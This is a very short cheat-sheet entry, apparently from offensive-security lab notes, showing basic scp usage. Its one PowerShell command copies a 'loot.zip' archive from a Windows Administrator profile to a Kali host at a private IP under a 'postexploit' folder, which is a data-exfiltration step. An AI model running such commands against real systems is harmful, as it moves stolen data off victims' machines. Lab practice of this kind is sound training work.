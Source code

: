 # scp

Basic usage:

```powershell
scp C:\Users\Administrator\loot.zip kali@10.11.101.30:/home/kali/thm/postexploit
```
